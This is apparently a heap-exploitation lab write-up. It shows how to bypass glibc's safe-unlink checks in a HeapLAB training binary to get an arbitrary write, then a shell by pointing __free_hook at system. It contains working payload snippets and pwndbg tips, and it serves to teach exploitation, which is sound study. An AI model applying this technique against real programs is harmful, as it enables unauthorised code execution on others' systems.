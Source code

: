```yaml
---
layout: post
title: "Safe Unlink"
subtitle: "Bypassing safe unlinking checks and get RCE."
date: 2016-05-26 06:00
author: "Ivan Medina"
header-img: "https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image4.png"
cdn: 'header-on'
tags: [ pwn, heap, unlink, libc-2.30 ] 
---
```

# Safe Unlink

## Checksec

![checksec.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/checksec.png)

## Tips
1. Avoid use 'vis' command when corrupted the heap

2. Some commands
```
pwndbg> p *((struct malloc_chunk*)0x603010).fd
pwndbg> dq mp_-sbrK_base
pwndbg> p__free_hook
pwndbg> ds m_array[0].user_data
```

## Reflected write

### 1. Prepare chunks


![Image1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image1.png)

### 2. Bypass protections

#### corrupted size vs. prev_size

```
fd = 0xdeadbeef
bk = 0xcafebabe
prev_size = 0x90
fake_size = 0x90
edit(chunk_A, p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size))
```

The prev_size field must correspond to the size field of the previous chunk.


#### corrupted double-linked list


![Image2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image2.png)


The problem is shown in the code section, and we can see that libc detects our unlinking because the backward pointer of next chunk must point to the original previous chunk of this, and forward pointer of previous chunk also must point to the original next chunk of this. As the error shows, it says that the doubly linked list was corrupted.

We could pass the safe unlinking check by simply setting both our forged fd and bk to the address of the chunk being unlinking. Malloc doesn't keep track of allocated chunks, it keeps pointers to its heaps' top chunk and free chunk in their respective arenas, but when a chunk is allocated to a thread, that thread is expected to keep a reference of the chunk, the program must strore pointers to every chubk it's been allocated somewhere, whether it keeps them on the stack, in data section or even on the heap itself.

This binary keeps pointers in their data section in an array labeled m_array...

![Image3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image3.png)


```
fd = elf.sym.m_array-24
bk = elf.sym.m_array-16
prev_size = 0x90
fake_size = 0x90
edit(chunk_A, p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size))
```

![Image4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image4.png)

But error persists, so maybe need to make that chunk needs to unlink from the start of user data's of chunk, we need to add some metadata since we are now forging an entire fake chunk inside it.

Lastly, we need to decrease the amount of garbage out bk and prev size field to account for the new fields.

```
fd = elf.sym.m_array-24
bk = elf.sym.m_array-16
prev_size = 0x80
fake_size = 0x90
edit(chunk_A, p64(0)+p64(80)+ p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))
free(chunk_B)
```

We had to create a new chunk because when it validates the size, the bytes we ask for having to add the 16 of the metadata and that is when it does not meet the prev size constraint. And we could not request the chunk of that size from the beginning, because I would not store them in the same list and they would not be contiguous.

![Image5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image5.png)

This is enough to pass the safe unlinking check ...

![Image6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image6.png)

We noticed that the area has also been overwritten

![Image7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image7.png)

And arbitrary writing has worked, now m_array points to our fake chunk, and can write on itself. 

```
edit(0,p64(0)*3 +p64(elf.sym.target))
edit(0, 'Hello world')
```

![Image8.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image8.png)

![reflected_write.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/reflected_write.jpeg)

## Get Shell

```
edit(0,p64(0)*3 +p64(libc.sym.__free_hook - 8 ))
edit(0, b'/bin/sh\0'+ p64(libc.sym.system))
free(0)
```

![shell.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/shell.png)

## Summary

- Request two chunks A and B, and leveraged an overflow bug to clear prev_inuse flag on the allocated chunk B.
- Prepare a fake chunk metadata in its previous chunk, chunk A, including a size field, forward pointer and backward pointer, and prev_size field.
- When we freed chunk B, its clear prev_inuse flag indicated to malloc that the previous chunk was free, therefore a candidate for consolidation.
- Malloc used our forged prev_size field to find the start of the previous chunk so it could unlink prior to consolidation.
- FD and BK checked that the BK at the destination pointed back to our fake chunk, and perform the same check to BK.
- Once our fake chunk passed the safe unlinking checks, malloc unlinked it. 
- It followed our FD and copied our BK over the BK at its destination. Then it followed our BK and copied our FD over the FD at its destination.


## References

* Max Kamper, Linux Heap Exploitation - Part 1, Udemy 6(15)
* https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/unsafe_unlink